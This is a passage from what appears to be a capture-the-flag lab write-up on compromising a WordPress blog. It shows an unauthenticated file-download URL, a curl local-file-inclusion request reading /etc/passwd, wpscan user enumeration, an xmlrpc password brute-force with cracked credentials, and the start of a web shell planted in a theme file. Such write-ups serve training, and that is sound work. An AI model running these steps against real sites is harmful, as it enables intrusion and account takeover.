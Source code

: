 * email-subscribers (4.2.2) : [https://www.exploit-db.com/exploits/48698](https://www.exploit-db.com/exploits/48698)
* site-editor (1.1.1)
* the-event-calendar (5.1.2.1)

### Exploits

The exploit for the plugin email-subscribed is an Unauthenticated File Download on this link.

```
http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all
```

* The flag is in this file.
* The exploit for the plugin site-editor is a LFI exploit.

```bash
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

* But I can't find the flag in `/home/erika` with this vulnerability.
* I can get the users (on the website, I can see it exists at least 2 users : erica and admin).

```bash
wpscan --enumerate u --url http://blog.inlanefreight.htb
```

* The users are **admin**, **erika** & **charlie**. I can crack their passwords.

```bash
wpscan --url http://blog.inlanefreight.htb -t 20 \
  -U admin,erika,charlie \
  --password-attack xmlrpc \ 
  -P /usr/share/wordlists/rockyou.txt
```

* The credentials are `erika:010203` & `charlie:soccer13`.

#### Web Shell

Now, I'm logged as `erika` and has administrator access on the WordPress dashboard. I can update an inactive theme like `TwentySeventeen` and the file `404.php` :

<figure><img src="../../../../.gitbook/assets/theme.png" alt=""><figcaption></figcaption></figure>
